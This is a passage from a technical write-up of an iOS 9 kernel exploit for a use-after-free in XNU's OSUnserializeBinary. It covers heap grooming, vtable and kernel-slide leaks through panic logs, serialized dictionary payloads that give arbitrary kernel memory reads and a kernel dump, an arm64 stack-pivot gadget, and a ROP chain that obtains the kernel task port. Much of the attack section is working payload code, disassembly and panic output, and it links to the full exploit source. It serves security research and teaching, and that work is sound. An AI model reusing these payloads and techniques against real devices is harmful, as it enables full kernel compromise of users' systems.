By making lots of strategical allocations and deallocations (hooray for [Heap Feng Shui](https://en.wikipedia.org/wiki/Heap_feng_shui)). And we can do that by passing dictionary with `kOSSerializeString`s to `io_service_open_extended` for allocation, and the returned client handle to `IOServiceClose` for deallocation. So:

- When our program starts, there could be any number of nodes from any memory page in the kalloc.32 freelist. But once all nodes in the freelist are used up and a new page is mapped, all nodes in the freelist will be from that page. So the first thing we do is allocate a lot of strings. (I used 255 strings here.)
- Next we're gonna allocate some more strings, always alternating between a bunch (I chose 64) and only one in the dictionary. And we're gonna do that a couple of times too (I did 16 each).
- Then we're gonna release all clients with a single string in their dictionary, thus "poking holes" into the heap, in a way that each hole is pretty likely to be surrounded by `OSString` objects.

Visualized again:

(The dictionaries to achieve this are straightforward and make no use of any bugs so far.)

Now we're gonna parse a rather simple dictionary:

    uint32_t dict[5] =
    {
        kOSSerializeMagic,                                              // Magic
        kOSSerializeEndCollection | kOSSerializeDictionary | 2,         // Dictionary with 2 entries

        kOSSerializeString | 4,                                         // String that'll get freed
        *((uint32_t*)"str"),
        kOSSerializeEndCollection | kOSSerializeObject | 1,             // Call ->retain() on the freed string
    };

`kOSSerializeString` will cause an `OSString` to get allocated, hopefully in one of those lonely holes we've punched into the heap, and when it is freed again shortly after, we're left with `objsArray[1]` holding a pointer to that chunk of memory that is surrounded by allocated `OSString`s.  
`kOSSerializeObject` will then attempt to call `retain()` on that chunk of freed memory, thus unfolding the process explained above, ultimately causing a kernel panic and logging the vtable address in the panic log:

    panic(cpu 0 caller 0xffffff801befcc1c): "Kernel instruction fetch abort: pc=0xffffff801c2ef1f0 iss=0xf far=0xffffff801c2ef1f0. Note: the faulting frame may be missing in the backtrace."
    Debugger message: panic
    OS version: 13G34
    Kernel version: Darwin Kernel Version 15.6.0: Mon Jun 20 20:10:22 PDT 2016; root:xnu-3248.60.9~1/RELEASE_ARM64_S8000
    iBoot version: iBoot-2817.60.2
    secure boot?: YES
    Paniclog version: 5
    Kernel slide:     0x0000000017e00000
    Kernel text base: 0xffffff801be04000
    Epoch Time:        sec       usec
      Boot    : 0x58225b8c 0x00000000
      Sleep   : 0x00000000 0x00000000
      Wake    : 0x00000000 0x00000000
      Calendar: 0x58225bec 0x00028e96

    Panicked task 0xffffff811d67bdc0: 78 pages, 1 threads: pid 748: cl0ver
    panicked thread: 0xffffff811f2f9000, backtrace: 0xffffff8012f03120
              lr: 0xffffff801bf043c4  fp: 0xffffff8012f03170
              lr: 0xffffff801be2e11c  fp: 0xffffff8012f031d0
              lr: 0xffffff801befcc1c  fp: 0xffffff8012f032c0
              lr: 0xffffff801befb1f0  fp: 0xffffff8012f032d0
              lr: 0xffffff801c1f0678  fp: 0xffffff8012f03720
              lr: 0xffffff801c25b4cc  fp: 0xffffff8012f03840
              lr: 0xffffff801bedaa00  fp: 0xffffff8012f038a0
              lr: 0xffffff801be194c8  fp: 0xffffff8012f03a30
              lr: 0xffffff801be27b78  fp: 0xffffff8012f03ad0
              lr: 0xffffff801befd6b0  fp: 0xffffff8012f03ba0
              lr: 0xffffff801befbd40  fp: 0xffffff8012f03c90
              lr: 0xffffff801befb1f0  fp: 0xffffff8012f03ca0
              lr: 0x00000001819b0fd8  fp: 0x0000000000000000

`0xffffff801c2ef1f0 - 0x0000000017e00000 = 0xffffff80044ef1f0`, there we go.

*The full implementation of this can be found in the `uaf_panic_leak_vtab` function in [`uaf_panic.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/uaf_panic.c).*

#### The ugly: semi-blind guessing

Disclaimer: I can't promise that this will work for every device and OS version, but it did on my iPod.

Our target is iPod5,1/9.3.2, so let's first look at 9.3.2 for some other devices:

    $ jtool -l -v iPhone4,1/kernel | head -9
    LC 00: LC_SEGMENT               Mem: 0x80001000-0x803e6000      File: 0x0-0x3e5000      r-x/r-x __TEXT
            Mem: 0x80002000-0x803931a8      File: 0x00001000-0x003921a8             __TEXT.__text   (Normal)
            Mem: 0x803931b0-0x803a916c      File: 0x003921b0-0x003a816c             __TEXT.__const  
            Mem: 0x803a916c-0x803e59dd      File: 0x003a816c-0x003e49dd             __TEXT.__cstring        (C-String Literals)
    LC 01: LC_SEGMENT               Mem: 0x803e6000-0x8045c000      File: 0x3e5000-0x411000 rw-/rw- __DATA
            Mem: 0x803e6000-0x803e60e8      File: 0x003e5000-0x003e50e8             __DATA.__nl_symbol_ptr  
            Mem: 0x803e60e8-0x803e61f0      File: 0x003e50e8-0x003e51f0             __DATA.__mod_init_func  (Module Init Function Ptrs)
            Mem: 0x803e61f0-0x803e62f4      File: 0x003e51f0-0x003e52f4             __DATA.__mod_term_func  (Module Termination Function Ptrs)
            Mem: 0x803e7000-0x803f67a0      File: 0x003e6000-0x003f57a0             __DATA.__const
    $ nm iPhone4,1/kernel | grep __ZTV8OSString
    803ece8c S __ZTV8OSString
    $ jtool -l -v iPhone5,4/kernel | head -9
    LC 00: LC_SEGMENT               Mem: 0x80001000-0x803ee000      File: 0x0-0x3ed000      r-x/r-x __TEXT
            Mem: 0x80002000-0x8039acc0      File: 0x00001000-0x00399cc0         __TEXT.__text   (Normal)
            Mem: 0x8039acc0-0x803b0c8c      File: 0x00399cc0-0x003afc8c         __TEXT.__const
            Mem: 0x803b0c8c-0x803ed894      File: 0x003afc8c-0x003ec894         __TEXT.__cstring        (C-String Literals)
    LC 01: LC_SEGMENT               Mem: 0x803ee000-0x80464000      File: 0x3ed000-0x419000 rw-/rw- __DATA
            Mem: 0x803ee000-0x803ee0ec      File: 0x003ed000-0x003ed0ec         __DATA.__nl_symbol_ptr
            Mem: 0x803ee0ec-0x803ee1f4      File: 0x003ed0ec-0x003ed1f4         __DATA.__mod_init_func  (Module Init Function Ptrs)
            Mem: 0x803ee1f4-0x803ee2f8      File: 0x003ed1f4-0x003ed2f8         __DATA.__mod_term_func  (Module Termination Function Ptrs)
            Mem: 0x803ef000-0x803fe790      File: 0x003ee000-0x003fd790         __DATA.__const
    $ nm iPhone5,4/kernel | grep __ZTV8OSString
    803f4e8c S __ZTV8OSString

As we can see, `__DATA.__const` has different offsets, depending on the device, and so does the `OSString` vtable.  
However, if we subtract the former from the latter: `0x803ece8c - 0x803e7000 = 0x803f4e8c - 0x803ef000 = 0x5e8c`. It turns out that the vtable's offset from `__DATA.__const` is the same for both. Could it be the same for the iPod5,1 as well?

First we need to learn the base address of `__DATA.__const`. That address is stored in the kernel's mach header at offset `0x244`. Since the data segment is non-executable, branching to that location will cause a panic.  
Thus we use the UaF to construct an `OSString` whose vtable pointer points to 4 machine words before offset `0x244`, i.e. `kernel_base + kernel_slide + 0x224`, so that a call to `retain()` will give us:

    Incident Identifier: 0E7ED4DF-23F4-4669-A772-8B46A8D04BF2
    CrashReporter Key:   b25fc727e5bd42cc472643168319ec8bb9b18dec
    Hardware Model:      iPod5,1
    Date/Time:           2016-12-17 23:42:38.38 +0100
    OS Version:          iOS 9.3.2 (13F69)

    panic(cpu 0 caller 0x<ptr>): sleh_abort: prefetch abort in kernel mode: fault_addr=0x857e7000
    r0:   0x96961a40  r1: 0x857e7000  r2: 0x8c000001  r3: 0x00000001
    r4:   0x8b07d7f0  r5: 0x00000001  r6: 0x00000034  r7: 0x800abd34
    r8:   0x96961a40  r9: 0x00000034 r10: 0x80004034 r11: 0x00000001
    r12:  0x85793043  sp: 0x800abcb4  lr: 0x8571eb69  pc: 0x857e7000
    cpsr: 0x80000013 fsr: 0x0000000f far: 0x857e7000

    Debugger message: panic
    OS version: 13F69
    Kernel version: Darwin Kernel Version 15.5.0: Mon Apr 18 16:44:05 PDT 2016; root:xnu-3248.50.21~4/RELEASE_ARM_S5L8942X
    Paniclog version: 3
    Kernel slide:     0x0000000005400000
    Kernel text base: 0x85401000
      Boot    : 0x5855be8a 0x00000000
      Sleep   : 0x00000000 0x00000000
      Wake    : 0x00000000 0x00000000
      Calendar: 0x5855bf22 0x0009c5b9

    Panicked task 0xc65784c8: 926 pages, 8 threads: pid 164: v3tta
    panicked thread: 0xc67478b0, backtrace: 0x800aba00
            0x854c9b63
            0x854c9e39
            0x85420f63
            0x854ccc79
            0x854c6660
            0x8576fa7d
            0x854ab1c9
            0x85410c61
            0x8541be69
            0x854c62fc

Subtracting the kernel slide from the value in `pc` yields the unslid address of `__DATA.__const`: `0x803E7000`.  
That happens to be the same as for the iPhone4,1, so we assume our vtable address to be `0x803ece8c`.  
We can verify whether that is actually the case in the next step.

- If it is, then we're done here.
- If it isn't, I suggest going a few machine words up and down, looking at the panic logs to see what's at that address instead, and trying to figure out where that is in the decrypted kernels, which should give you a rough idea on how far you need to go, and in which direction.

*The full implementation of this can be found in the `uaf_panic_leak_DATA_const_base` and `uaf_panic_read` functions in [`uaf_panic.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/uaf_panic.c).*

## Part Two: Dumping the kernel

With the `OSString` vtable and the kernel slide both known, we can construct valid(-ish) strings that point to wherever we choose.  
Let's see how we can use that to read a fixed amount of memory from an arbitrary address:

We start with an OSString:

    OSString osstr;

Obviously it's gonna need its vtable and the address we want to read from:

    osstr.vtab = 0xffffff80044ef1f0 + get_kernel_slide(); // or 0x803ece94
    osstr.string = address;

I'll get back to the length later, for now we're just gonna use the maximum MIG message size, i.e. 4096 bytes:

    osstr.length = 0x1000;

Now there's two fields left: `retainCount` and `flags`.

The retain count we set to something unrealistically high, so that a call to `release()` is never actually going to free anything. We want this because our `OSString` is actually the buffer of an `OSData`, which will be managed and freed as such, and interfering with that would only cause chaos and destruction.

    osstr.retainCount = 100;

As for flags, there is exactly one recognised by `OSString`: `kOSStringNoCopy`, indicating the string doesn't own its buffer and will not free or modify it.  
I'm not sure it even makes a difference in this case, but we might as well set it:

    osstr.flags = kOSStringNoCopy;

Now we have to build a payload for `OSUnserializeBinary`. Conceptually, it should suffice to have a dictionary containing:

* A `kOSSerializeString` as key, which will get freed.
* A `kOSSerializeData` right after it, whose buffer will replace it.
* A name by which we're later gonna retrieve bytes from our address.
* A `kOSSerializeObject` pointing to the overwritten string.

If you test this in practice, however, you'll always get a panic. This is because during deallocation, when `release()` gets called on the last of the above, the `OSData` before it will have been deallocated already, along with its buffer, which causes the underlying memory to get poisoned, so that a call to `release()` will end up trying to branch to some `0xdeadbeef`.  
We can work around that, however, by adding another `kOSSerializeObject` to the end of the dict, referencing the `OSData`, causing it to be retained until after `release()` has been called on the reference to the overwritten string.

Implementing all of the above, we get:

    OSString osstr =
    {
        .vtab = 0xffffff80044ef1f0 + get_kernel_slide(),                // or 0x803ece94
        .retainCount = 100,
        .flags = kOSStringNoCopy,
        .length = 0x1000,
        .string = address,
    };
    uint32_t *data = (uint32_t*)&osstr;
    uint32_t dict[11 + sizeof(OSString) / sizeof(uint32_t)] =
    {
        kOSSerializeMagic,                                              // Magic
        kOSSerializeEndCollection | kOSSerializeDictionary | 6,         // Dictionary with 6 entries

        kOSSerializeString | 4,                                         // String that will get freed
        *((uint32_t*)"str"),
        kOSSerializeData | sizeof(OSString),                            // OSData with same size as OSString
    #ifdef __LP64__
        data[0],                                                        // vtable pointer (lower half)
        data[1],                                                        // vtable pointer (upper half)
        data[2],                                                        // retainCount
        data[3],                                                        // flags
        data[4],                                                        // length
        data[5],                                                        // (padding)
        data[6],                                                        // string pointer (lower half)
        data[7],                                                        // string pointer (upper half)
    #else
        data[0],                                                        // vtable pointer
        data[1],                                                        // retainCount
        data[2],                                                        // flags
        data[3],                                                        // length
        data[4],                                                        // string pointer
    #endif

        kOSSerializeSymbol | 4,                                         // Name that we're gonna use to retrieve bytes
        *((uint32_t*)"ref"),
        kOSSerializeObject | 1,                                         // Reference to the overwritten OSString

        kOSSerializeSymbol | 4,                                         // Create a reference to the OSData
        *((uint32_t*)"sav"),
        kOSSerializeEndCollection | kOSSerializeObject | 2,
    };

With that figured out, back to the length that we put aside earlier: MIG let's us pass at most 4096 bytes in or out of the kernel at once, so in order to dump arbitrary amounts of memory, we need to invoke the UaF in a loop (I don't think this needs more explaining, it's just math).

*I've implemented the concept up until here in the `uaf_get_bytes` and `uaf_read_naive` functions in [`uaf_read.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/uaf_read.c). They're not used anymore, but I left them in for demo purposes.*

Now, with the above it is already possible do dump the kernel... provided you wait a sufficient amount of time between invocations. If you don't, you're likely to see your device panic. That is because ultimately, the UaF is a race condition.  
When our `OSString` is freed, it gets added to the top of its zone's freelist, and we count on it being there when our `OSData`'s buffer is allocated. If that is not the case, then the subsequent call to `retain()` will almost certainly cause a panic.

Now, I went through `OSUnserializeBinary` multiple times and I'm pretty confident that it doesn't do any allocations or deallocations between our two key events... so from the perspective of a single thread, our assumption should hold. But in the multithreaded environment that is XNU, we're very far from that.  
There are a couple of things that can happen, for a couple of different reasons, and with a couple of different consequences:

-   **The freed `OSString` is at the top of the freelist**  
    This is what we want. It doesn't matter whether the freelist remained untouched or not, so long as the top node is still our `OSString`.

    Winning this race once is no big deal in practice, but in order to dump the entire kernel without panicking, you have to win it **thousands of times, without losing even once**! I have found the race to be so easily winnable that even with these odds, I got my kernel dump with just four tries.  
    That's nowhere near reliable though, so let's see what we can do to improve stability.

-   **Elements were added to the freelist**  
    Another chunk of memory is sitting at the top of the freelist now, so when our `OSData`'s buffer gets allocated, our `OSString` stays freed and poisoned, causing a panic when `retain()` is called on it. This will manifest itself as some `0xdeadbeef` showing up in the panic log.

    In practice, I have found this to be by far the most likely outcome when spamming the kernel with this technique. However, stability increased by orders of magnitude when I waited for 1ms between invocations. I have heard claims that some IOKit memory cleanup is done asynchonously, which would be consistent with my findings, however I've been unable to find any hard evidence of this (does anyone have more info on this?).  
    Of course this slows down dumping considerably, and I've explored two ideas to counteract this:

    - Multiple dictionaries per client: Completely broke stability. Still not sure why exactly, but I never got past five invocations this way.
    - Spawning multiple clients and releasing them together: This worked for me, as long as I didn't go beyond 10 clients. It wasn't as much as I had hoped for, but hey, I'll take a speed improvement of 10x.

    At this point I still hit a panic every now and then on some `0xdeadbeef`, so the `OSString` was still prone to sinking down in the freelist.  
    But you can actually do something to reduce the likelihood of that causing a panic: Have multiple `OSData`s with the same content!  
    If you've got just one `OSData`, then the freed `OSString` must be at the very top of the freelist. If you've got, say, three of them, then being anywhere among the _top three_ nodes in the freelist will cause our `OSString` to get overwritten. And since this is a race that is easily winnable already, very few additional `OSData`s should suffice. In practice, a total of three proved enough to never panic on any `0xdeadbeef` again.  
    When implementing this, one must take care though to not introduce anything else that gets allocated on the same kalloc zone as `OSString`s. For example, when adding two `OSData`s as values, both of which have an `OSSymbol` as key, that will cause no problems on 64-bit as `OSString` and `OSSymbol` go to different kalloc zones there, but on 32-bit they share the same zone. This could lead to an `OSSymbol` key getting allocated over the string, which would cause no panic, but yield an unwanted result. It's pretty simple to avoid these problems altogether though, by simply putting them before the `OSString` in the dict, and referencing them with `kOSSerializeObject`.

-   **Elements were removed from the freelist**  
    Our `OSString` has been reallocated and is gone. I haven't figured out anything that could be done about this.  
    Freeing additional strings as a "freelist buffer" won't work, since that way, the time our referenced `OSString` spends at the top of the freelist (and is thus "vulnerable to allocation") is actually _increased_.  
    Trying to free and overwrite multiple strings (with a "one of them has to get overwritten" mindset) won't work either, since we don't need _one_ string to be valid, but _all of them_, since _just one_ invalid reference will trigger a panic.

    Oddly enough I never ran into this case when running from the command line, but regularly when running from an app within the sandbox (always on a NULL pointer interpreted as vtable, and almost always either on the first try, or not at all). Feel free to hit me up if you know more about this.

With all of the above I managed to make dumping reasonably stable (never got a panic from the command line anymore, got about 20% panic from sandbox) and take less than a minute. At that point I gave up on trying to improve it further and instead added functionality to cache the required information (see [`offsets.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/offsets.c)), so that once the kernel had been dumped, it would never have to be done again on that device.  
Feel free to fiddle around with it though, and hopefully create a pull request if you manage to make it faster or more reliable. :)

With arbitrary read now more or less stable, dumping the kernel is trivial. But for the sake of completeness:

- Read the Mach-O header from the kernel text base
- Figure out the file size and allocate a sufficiently large buffer
- Iterate over all segments and dump them one by one
- Remove the symbol table from the header because it's not mapped to memory
- Write buffer to file

*The full implementation of this can be found in the `uaf_read` and `uaf_dump_kernel` functions in [`uaf_read.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/uaf_read.c).*

## Part Three: ROP

*Note: I haven't done any of the following on 32-bit yet, and I'm not sure whether I will. For now this is 64-bit only.*

### Pivoting and restoring the stack

If you've read jndok's writeup or have played with the Pegasus vulnerabilities yourself, then you know that our UaF gives us exactly _one_ ROP gadget worth of execution. So we need to find a stack pivot.  
But before we can go off and search for one, we first need to determine what requirements we have for it:

- In order for things to go smooth, we need to be able to restore the stack frame at the end of our ROP chain. For that we need to save the stack pointer somehow. In normal program flow, the stack pointer is usually passed from `sp` to `x29` when entering a function, and from `x29` to RAM on any subsequent function call within that function, and exactly that path back again when returning from functions. Ideally we'd just move `sp` or `x29` to another register or save it to a known address, but it turns out that such instructions tend to be either exceedingly rare, very far away from branches or returns, or both (so they don't make usable ROP gadgets).
- On top of all that, we also need for our gadget to load `x29` and `x30` from a controllable location, so that we actually get stack control. For that we need to find not only a gadget, but also a register that holds either a controllable, or otherwise useful value.

A good point to start is to examine which registers hold which values. By examining the disassembly of `OSUnserializeXML` (and possible looking at panic logs), I made out the following:

- `x0` and `x28` hold a pointer to the current object, i.e. what is called `o` in `OSUnserializeBinary`.
- `x8` is the address we just jumped to, i.e. the pointer to `retain()` in our fake vtable.
- `x9` holds the type of the parsed object, in our case `0xc000000` for `kOSSerializeObject`.
- `x21 = bufferPos`
- `x22 = bufferSize`
- `x27 = objsArray`

Let's first sort out those we surely cannot use as a stack pivot loading address:

- `x8` controllable, but must point to the stack pivoting gadget itself for our exploit to work, so it's not suitable as a loading address.
- `x21` and `x22` can never be bigger than `0x1000`, due to the maximum MIG message size. Pages are `0x4000` bytes on ARM, and, unlike on OS X, you cannot map at `NULL` at all on iOS (unmapping `__PAGEZERO` fails, and binaries missing it will be slaughtered on sight by the kernel). These values are therefore too small to hold valid memory addresses.
- `x27` holds a pointer to an array of pointers to allocated objects. Loading such an address into `x30` would cause a panic, so that's not suitable as well.

`x0` or `x28` would be perfect, as they point to a memory area whose contents are entirely controllable. However, I was unable to find a gadget that loads from `x0` or `x28`.  

I had my fair share of trouble finding a usable stack pivot. I looked at some docs discussing stack pivots on x86 and 32-bit ARM, and I have to say it looks to me like on those architectures it's a lot easier than on arm64!  
The only thing that I found _at all_ mentioning stack pivots on arm64 was [@qwertyoruiopz](https://twitter.com/qwertyoruiopz), saying it's [amazingly easy to find them](https://twitter.com/qwertyoruiopz/status/644142701840068608). Luca, should you happen to read this, care to elaborate? :)

Now, I did eventually find a usable gadget:

    0xffffff8005aea01c      3d79c1a8  ldp x29, x30, [x9], 0x10
    0xffffff8005aea020      ff430091  add sp, sp, 0x10
    0xffffff8005aea024      c0035fd6  ret

The way we use this gadget is as follows:

-   We put our fake stack at the "address" `x9` points to, `0xc000000`. Yes, that would normally be within `__PAGEZERO`, but even though we cannot *remove* that mapping, we can still *shrink* it! To do so, we simply pass `-Wl,-pagezero_size,0x4000` to our compiler (and preferably also `-Wl,-image_base,0x100000000`, to move the remaining segments back to their usual address), and we can happily map at `0xc000000`!

        vm_address_t addr = kOSSerializeObject;
        vm_allocate(mach_task_self(), &addr, 0x4000, 0);

    Note: If we couldn't shrink `__PAGEZERO`, we'd simply move to a 32-bit binary where it's only `0x4000` bytes by default.  
    Also note that on the iPhone 7 with SMAP, we couldn't just load from userland addresses in kernel mode, so we'd have to find some place in the kernel to put our data, of which we know the address (with arbitrary read we could simply search for it though). But for now this is iOS 9, so we're most definitely not on an iPhone 7.
-   We put the address of that gadget not only into our fake vtable, but also on the top of our stack, as the first return address. This does *not* cause an infinite loop, since `x9` is increased by `0x10` every time the gadget is run.
-   We repeat the gadget until `sp` point to the location in RAM where `x29` of the previous stack frame is stored. This works because `sp` is never overwritten with an arbitrary value, but simply *moved*.

At that point we jump to a gadget that loads a value from the stack and stores it in any register that is convenient. And then we finally have both the address of the original stack frame, as well as a fake stack from which we're running now. Of course, since the loaded value is `x29` and not `sp`, we need to subtract the stack size of the calling function from it, which in the case of `is_io_service_open_extended` is `0x120`, but that's a trivial task now. It's also a good idea to store that value to RAM somewhere, so that our ROP chain doesn't corrupt it by accident.

After saving a pointer to the last stack frame and pivoting the stack, we run whatever ROP we *actually* wanted to run in the first place. Let's put that aside for a moment though, I'll get to it in a bit.

At the end of our ROP chain we need to make use of that stack pointer we saved earlier, and (preferably) return to somewhere within `OSUnserializeXML`.  
The easiest way to restore the saved stack frame, is quite simple: when we save it to RAM at the beginning of our chain, we don't just write it *anywhere*, but to a location further down on our stack, more precisely the location where `x29` will be loaded from when we load our return address into `x30`. That requires knowledge of the exact length of our ROP chain and some precise counting, but it's easily doable.  
Paired with that we're gonna need an address to return to, for simplicity most likely one within `OSUnserializeXML`.
I chose `0xffffff80043f08c4` for now, which is at the end of `OSUnserializeXML`:

    0xffffff80043f08c4      130080d2       movz x19, 0
    0xffffff80043f08c8      e00313aa       mov x0, x19
    0xffffff80043f08cc      bf4301d1       sub sp, x29, 0x50
    0xffffff80043f08d0      fd7b45a9       ldp x29, x30, [sp, 0x50] ; [0x50:4]=0x4dc000 ; 'P'
    0xffffff80043f08d4      f44f44a9       ldp x20, x19, [sp, 0x40] ; [0x40:4]=0x4dc000 ; '@'
    0xffffff80043f08d8      f65743a9       ldp x22, x21, [sp, 0x30] ; [0x30:4]=0 ; '0'
    0xffffff80043f08dc      f85f42a9       ldp x24, x23, [sp, 0x20] ; [0x20:4]=25
    0xffffff80043f08e0      fa6741a9       ldp x26, x25, [sp, 0x10] ; [0x10:4]=13
    0xffffff80043f08e4      fc6fc6a8       ldp x28, x27, [sp], 0x60
    0xffffff80043f08e8      c0035fd6       ret

This basically means `return 0;`.  
That is actually quite bad though, because it means that all memory allocated by the function will be leaked (i.e. all objects created while parsing, plus `objsArray` and `stackArray`), and because it will ultimately cause the call to return failure. If my tool was ever to go into production, that should definitely be fixed, but since it's technically working, it was good enough for my demo.

### The core of our chain

The goal of our ROP chain is simple: get the kernel task port!  
We can make a plan of how to do that by walking through the code of `task_for_pid` ([`vm_unix.c`](https://opensource.apple.com/source/xnu/xnu-3248.60.10/bsd/vm/vm_unix.c), l. 632) and just pretend we were already past the `pid == 0` check, and that `p->task = kernel_task`. Skipping all checks, it basically comes down to:

    /* Grant task port access */
    task_reference(p->task);
    extmod_statistics_incr_task_for_pid(p->task);

    sright = (void *) convert_task_to_port(p->task);
    tret = ipc_port_copyout_send(
            sright,
            get_task_ipcspace(current_task()));

    /* ... */

    copyout((char *) &tret, task_addr, sizeof(mach_port_name_t));

Let's simplify that.

-   `extmod_statistics_incr_task_for_pid` can be dropped entirely, because it's just statistics.
-   `ipc_port_copyout_send` is basically just `ipc_port_make_send(task->itk_self)` with checks, locks, and the consuming of a reference. If we replace it with that, we can also drop `task_reference(p->task);` entirely. This is a pretty unsafe thing to do, but at what point is `kernel_task->itk_self` really gonna be `NULL`, or change in a way significant to `ipc_port_make_send`?
-   get_task_ipcspace is literally just:

        ipc_space_t get_task_ipcspace(task_t t)
        {
            return(t->itk_space);
        }

    So we can substitute `get_task_ipcspace(current_task())` for `current_task()->itk_space`.
-   And we can also replace that `copyout` with just an assignment: `*task_addr = tret`.  
    Again, on a device with SMAP (iPhone 7) we couldn't do that, but for now... we can. :P

So given a userland address `task_addr`, this is what we want to run in kernel mode:

    *task_addr = ipc_port_copyout_send(ipc_port_make_send(kernel_task->itk_self), current_task()->itk_space);

Now, I'm not dumping the ROP chain generation code into this writeup. If you wanna have a look at it, you're gonna need to see all of it, so go have a look at [`rop.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/rop.c). It's not pretty, but I've thoroughly annotated it, so hopefully you'll be able to understand it.  
The general concept of this "inner" ROP chain is:

- Call `current_task()`.
- Load `[x0, 0x2a0]` to `x0` (`->itk_space` has an offset of `0x2a0`).
- Store `x0` somewhere, for later use.
- Load `kernel_task` to `x0` (`kernel_task` is at a fixed address, see `nm kernel | grep kernel_task`).
- Load `[x0, 0xe8]` to `x0` (`->itk_self` has an offset of `0xe8`).
- Call `ipc_port_make_send()`.
- Restore the `x0` we saved before to `x1`, without corrupting `x0`.
- Call `ipc_port_copyout_send()`.
- Store `x0` at `task_addr`.

In practice it's a bit more complicated than that. For example, calling a function is straightforward in a normal program, but in ROP that actually requires you to first run a gadget that loads values into some registers (commonly `x19` and upwards), and then a gadget that does a `blr` to such a register.  
But the above is sort of a high-level view. If you want details, go look at the source. It's quite understandable, I promise! :P

*The full implementation of this can be found in [`rop.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/rop.c) (building the chain) and [`uaf_rop.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/uaf_rop.c) (executing the chain).*

### Finding offsets/addresses

Whether we're manually looking for addresses or want to write code that does it for us (after all, hardcoding is ugly), we need a plan on how to identify them.

~~~*Note: I planned for an offset finder to be implemented in [`find.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/find.c), but I haven't gotten round to it. I'm just lining out how the addresses could be found.*~~~

> ***Update 10. Jan 2017:***
>
> For arm64, this has been fully implemented in [`find.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/find.c) now.

Now, there's two categories:

**ROP gadgets**  
Those are really straightforward: You have a fixed sequence of opcodes you need, so all you have to do is walk through `__TEXT` and `__PRELINK_TEXT` until you find a 1:1 match (on a 4-byte boundary, that is).

**The rest**  
Data addresses, data structure offsets and most functions are more complicated; we need something that uniquely identifies them.  
The usual approach to this is to start at the address of something that is uniquely identifiable (such as a string or a very rare sequence of opcodes) and then find reference to or from that address or adjacent locations. I'll briefly discuss everything that is not a ROP gadget (in my code, everything that doesn't have registers in its name):

-   `current_task()`  
    This is the entire function:

        0xffffff8004052e0c      88d038d5  mrs x8, tpidr_el1
        0xffffff8004052e10      008941f9  ldr x0, [x8, 0x310]
        0xffffff8004052e14      c0035fd6  ret

    So even though it *isn't* a ROP gadget, we can look for it as if it was.  
    (The reason for this is that arm64 has a special system register, `tpidr_el1`, where XNU stores a pointer to the current mach thread struct, which has a pointer to the task it belongs to.)

-   `ipc_port_copyout_send()` and `task_t->itk_space`  
    Called from `task_for_pid()`, whose address is in the `mach_trap_table`, which is a unique data structure.

    Looking at [`syscall_sw.c`](https://opensource.apple.com/source/xnu/xnu-3248.60.10/osfmk/kern/syscall_sw.c), we can see that the `mach_trap_table` starts as follows:

        /* 0 */     MACH_TRAP(kern_invalid, 0, 0, NULL),
        /* 1 */     MACH_TRAP(kern_invalid, 0, 0, NULL),
        /* 2 */     MACH_TRAP(kern_invalid, 0, 0, NULL),
        /* 3 */     MACH_TRAP(kern_invalid, 0, 0, NULL),
        /* 4 */     MACH_TRAP(kern_invalid, 0, 0, NULL),
        /* 5 */     MACH_TRAP(kern_invalid, 0, 0, NULL),
        /* 6 */     MACH_TRAP(kern_invalid, 0, 0, NULL),
        /* 7 */     MACH_TRAP(kern_invalid, 0, 0, NULL),
        /* 8 */     MACH_TRAP(kern_invalid, 0, 0, NULL),
        /* 9 */     MACH_TRAP(kern_invalid, 0, 0, NULL),

    In hex, that's gonna look like this:

        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000
        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000
        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000
        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000
        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000
        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000
        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000
        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000
        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000
        0x0000000000000000  0xffffff801ec4cef8
        0x0000000000000000  0x0000000000000000

    Where `0xffffff801ec4cef8` will point to a function that simply returns `KERN_INVALID_ARGUMENT` (= 4):

        0xffffff801ec4cef8      e0031e32       orr w0, wzr, 4
        0xffffff801ec4cefc      c0035fd6       ret

    With that we can find the `mach_trap_table`. Now `task_for_pid()` is mach trap 45, `mach_trap_t` is 4 pointers wide and `mach_trap_t->mach_trap_function` is the second pointer (index 1). That places a pointer to `task_for_pid()` at an offset of `181 * sizeof(void*)` from the start of the table.  
    And then, the `task_for_pid()` function itself contains a passage that, in symbolicated terms, reads:

        0xffffff80043c31ac      d6bcf197       bl sym._convert_task_to_port
        0xffffff80043c31b0      88d038d5       mrs x8, tpidr_el1
        0xffffff80043c31b4      088941f9       ldr x8, [x8, 0x310] ; [0x310:4]=0x530018
        0xffffff80043c31b8      015141f9       ldr x1, [x8, 0x2a0] ; [0x2a0:4]=0x41445f5f ;
        0xffffff80043c31bc      a372f197       bl sym._ipc_port_copyout_send

    It is characterized by an access to `tpidr_el1` and a subsequent load to `x1` (from inlined calls to `current_task()` and `get_task_ipcspace()`).  
    Right after that is a call to `ipc_port_copyout_send()`, which lets you calculate its address.  
    The load to `x1` also tells you the offset of `->itk_space` from the base of `task_t`.

-   `ipc_port_make_send()` and `task_t->itk_self`  
    Both called/referenced from `convert_task_to_port()`, which is called from `task_for_pid()` (see above).
    This is `convert_task_to_port()` in its entirety:

        0xffffff8004032504      f657bda9       stp x22, x21, [sp, -0x30]! ; '0'
        0xffffff8004032508      f44f01a9       stp x20, x19, [sp, 0x10]
        0xffffff800403250c      fd7b02a9       stp x29, x30, [sp, 0x20]
        0xffffff8004032510      fd830091       add x29, sp, 0x20
        0xffffff8004032514      f30300aa       mov x19, x0
